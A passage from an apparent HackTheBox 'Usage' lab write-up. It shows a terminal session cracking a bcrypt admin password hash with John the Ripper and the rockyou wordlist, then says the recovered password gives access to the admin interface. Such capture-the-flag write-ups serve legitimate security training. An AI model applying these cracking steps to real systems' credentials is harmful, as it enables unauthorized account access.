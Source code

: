 ## Admin login
The password hash can easily be cracked:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/usage]
└─$ cat admin_hash 
$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2

┌──(kali㉿kali)-[~/Desktop/hackthebox/usage]
└─$ john --wordlist=/home/kali/Desktop/tools/rockyou.txt admin_hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
whatever1        (?)     
1g 0:00:00:20 DONE (2024-07-02 10:03) 0.04880g/s 78.18p/s 78.18c/s 78.18C/s danilo..blahblah
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

┌──(kali㉿kali)-[~/Desktop/hackthebox/usage]
└─$ 
```

With those credentials we can log into the admin interface:
![Admin](./images/admin_login.png)
